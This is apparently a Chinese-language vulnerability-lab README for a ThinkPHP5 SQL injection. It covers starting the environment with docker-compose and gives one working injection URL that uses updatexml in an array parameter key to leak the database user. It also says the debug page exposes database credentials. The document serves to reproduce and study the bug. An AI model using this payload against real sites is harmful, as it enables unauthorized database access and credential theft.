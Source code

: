 # ThinkPHP5 SQL注入漏洞 && 敏感信息泄露

运行环境：

```
docker-compose up -d
```

启动后，访问`http://your-ip/index.php?ids[]=1&ids[]=2`，即可看到用户名被显示了出来，说明环境运行成功。

## 漏洞原理

漏洞原理说明：

- https://www.leavesongs.com/PENETRATION/thinkphp5-in-sqlinjection.html
- https://xianzhi.aliyun.com/forum/read/1813.html

不再赘述。

## 漏洞利用

访问`http://your-ip/index.php?ids[0,updatexml(0,concat(0xa,user()),0)]=1`，信息成功被爆出：

![](01.png)

当然，这是一个比较鸡肋的SQL注入漏洞。但通过DEBUG页面，我们找到了数据库的账号、密码：

![](02.png)

这又属于一个敏感信息泄露漏洞。
